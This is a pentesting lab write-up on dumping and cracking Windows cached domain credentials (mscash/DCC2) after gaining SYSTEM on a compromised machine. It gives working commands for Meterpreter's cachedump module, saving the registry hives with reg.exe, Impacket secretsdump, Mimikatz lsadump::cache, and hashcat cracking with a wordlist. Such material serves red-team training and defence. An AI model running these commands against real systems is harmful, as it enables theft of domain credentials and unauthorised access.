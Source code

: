 # Dumping and Cracking mscash - Cached Domain Credentials

This lab focuses on dumping and cracking mscash hashes after SYSTEM level privileges has been obtained on a compromised machine.

`Mscash` is a Microsoft hashing algorithm that is used for storing cached domain credentials locally on a system after a successful logon. It's worth noting that cached credentials do not expire. Domain credentials are cached on a local system so that domain members can logon to the machine even if the DC is down. It's worth noting that mscash hash is not passable - i.e PTH attacks will not work.

## Execution

### Meterpreter

Note that in meterpreter session, hashdump only dumps the local SAM account hashes:

{% code title="attacker@kali" %}
```
hashdump
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-59-09.png)

To dump cached domain credentials in mscash format, use a post exploitation module `cachedump`:

{% code title="attacker@kali" %}
```csharp
getuid
getsystem
use post/windows/gather/cachedump
run
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-53-09.png)

### Secretsdump

Impacket's secrestdump tool allows us to dump all the credentials that are stored in registry hives SAM, SECURITY and SYSTEM, so firstly, we need to write those out:

{% code title="attacker@victim" %}
```csharp
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-56-47.png)

Once the hives are retrieved, they can can be pulled back to kali linux to extract the hashes:

{% code title="attacker@kali" %}
```csharp
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-57-28.png)

### Mimikatz

```
lsadump::cache
```

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-32-15.png)

## Cracking mscash / mscache with HashCat

To crack mscache with hashcat, it should be in the following format:

```csharp
$DCC2$10240#username#hash
```

Meterpreter's cachedump module's output cannot be used in hashcat directly, but it's easy to do it.

Below shows the original output format from cachedump and the format accepted by hashcat:

```csharp
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 hashes.txt
```

![](../../.gitbook/assets/screenshot-from-2019-02-02-16-54-29.png)

Let's try cracking it with hashchat now:

{% code title="attacker@kali" %}
```csharp
hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85f3b8' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-16-57-55.png)

## Where Are Domain Credentials Cached

This can be seen via regedit (running with SYSTEM privileges) in the following key:

```
HKEY_LOCAL_MACHINE\SECURITY\Cache
```

`NL$1..10` are the cached hashes for 10 previously logged users:

![](../../.gitbook/assets/screenshot-from-2019-02-02-17-03-15.png)

By nulling out the Data fields one could remove the credentials from cache. Once cached credentials are removed, if no DC is present, a user trying to authenticate to the system will see:

![](../../.gitbook/assets/screenshot-from-2019-02-02-17-10-00.png)

## References

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}

{% embed url="https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/" %}
